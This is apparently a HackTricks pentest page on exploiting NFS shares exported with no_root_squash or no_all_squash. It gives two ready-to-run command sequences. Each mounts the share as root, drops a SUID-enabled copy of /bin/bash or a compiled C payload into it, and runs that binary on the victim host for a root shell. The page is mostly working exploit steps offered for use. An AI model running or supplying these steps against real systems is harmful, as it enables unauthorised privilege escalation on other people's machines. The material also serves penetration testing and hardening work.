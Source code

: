 <div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[NFS no_root_squash/no_all_squash misconfiguration PE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

[**#Remote Exploit**]

If you have found this vulnerability, you can exploit it:
- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **/bin/bash** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.
```
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
- **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary (you can find here some [C SUID payloads](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/payloads-to-execute#c)).
```
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
